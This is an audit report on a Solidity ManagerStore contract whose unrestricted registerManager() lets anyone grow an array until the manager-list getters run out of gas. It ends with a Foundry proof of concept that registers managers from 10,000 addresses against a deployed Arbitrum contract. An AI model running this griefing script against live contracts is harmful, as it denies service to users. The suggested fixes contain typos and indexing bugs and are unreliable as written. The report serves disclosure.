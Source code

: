 # As registration of manager can be called by anyone, length of `allManagers` can grow indefinitely. Possible DoS Griefing.

## Bug Description

ManagerStore.registerManager() does not have any access control mechanism, thus calling it from different `msg.sender` will only increase `allManagers` array.

Furthermore, there's no way to remove element from `allManagers` array.

https://github.com/charmfinance/alpha-vaults-v2-contracts/blob/main/contracts/ManagerStore.sol#L21-L31
```
    function registerManager(string memory ipfsHash) public {
        if (managersMap[msg.sender].managerAddress != msg.sender) {
            allManagers.push(msg.sender);
        } else if (managersMap[msg.sender].isAuthorized == true) {
            // remove manager from authorizedManagers list if it is already authorized
            _deauthorizeManager(msg.sender);
        }
        managersMap[msg.sender] = Manager(msg.sender, ipfsHash, false);

        emit ManagerRegistered(msg.sender, ipfsHash);
    }
```

## Impact
Any UI or other smart contracts relying on  `ManagerStore.getAllManagers()`, `ManagerStore.getAllManagersWithHashes()` will be reverted by gas griefing.

https://github.com/silo-finance/silo-core-v1/blob/master/contracts/SiloRepository.sol#L415-L420
```solidity
    function getAllManagersWithHashes() public view returns (Manager[] memory) {
        uint256 allCount = allManagers.length;
        Manager[] memory result = new Manager[](allCount);

        for (uint256 i = 0; i < allCount; i++) {
            result[i] = managersMap[allManagers[i]];
        }

        return result;
    }

    function getAllManagers() public view returns (address[] memory) {
        return allManagers;
    }

```

## Recommendation

1) add onlyOwner modifier `registerManager()`, replace `msg.sender` with `manager` parameter
https://github.com/charmfinance/alpha-vaults-v2-contracts/blob/main/contracts/ManagerStore.sol#L21-L31
```
   function registerManager(address manager, string memory ipfsHash) onlyOwner public {
        if (managersMap[manager].managerAddress != manager) {
            allManagers.push(manager);
        } else if (managersMap[manager].isAuthorized == true) {
            // remove manager from authorizedManagers list if it is already authorized
            _deauthorizeManager(manager);
        }
        managersMap[manager] = Manager(manager, ipfsHash, false);

        emit ManagerRegistered(manager, ipfsHash);
    }
```

2) Unregistration mechanism of manager
```
   function unregisterManager(address manager) onlyOwner public {
        uint256 allCount = allManagers.length;
        Manager[] memory result = new Manager[](allCount);

        for (uint256 i = 0; i < allCount; i++) {
            if (allManagers[i] == manager)
            {
                allManager[i] = allManager[allCount - 1];
                allManagers.pop();
                break;
            }
        }
        delete managersMap[manager];

        emit ManagerUnregistered(manager);
    }
```

3) Pagination for getting manager lists

https://github.com/silo-finance/silo-core-v1/blob/master/contracts/SiloRepository.sol#L415-L420
```solidity
    function getAllManagerLength() public view returns (uint256) {
        return allManagers.length;
    }

    function getManagers(uint256 at, uint256 count) public view returns (address[] memory) {
        Manager[] memory result = new Manager[](count);

        for (uint256 i = at; i < at + count; i++) {
            result[i] = allManagers[i];
        }

        return result;
    }
```

## Proof of Concept
```solidity
  // SPDX-License-Identifier: UNLICENSED
  pragma solidity 0.8.10;

  import "forge-std/Test.sol";
  import "./interface.sol";

  interface IManagerStore {
    struct Manager {
        address managerAddress;
        string ipfsHash;
        bool isAuthorized;
    }


    function registerManager(string memory ipfsHash) external;
    function getAllManagersWithHashes() external view returns (Manager[] memory);
  }

  contract ContractTest is DSTest {
      CheatCodes      cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
      IManagerStore   store = IManagerStore(0x23B81eD65D4e4EF1ADEB5a73Ed3611AcC88Ad677);

    function setUp() public {
      cheats.createSelectFork("arbitrum", 118337529); 
    }

    function testExploit() public {
      for (uint160 i = 0; i < 10000; i++)
      {
        cheats.prank(address(i));
        console.log("Prank - %d", i);
        store.registerManager("");
      }

      cheats.expectRevert();
      store.getAllManagersWithHashes();
    }
  }
```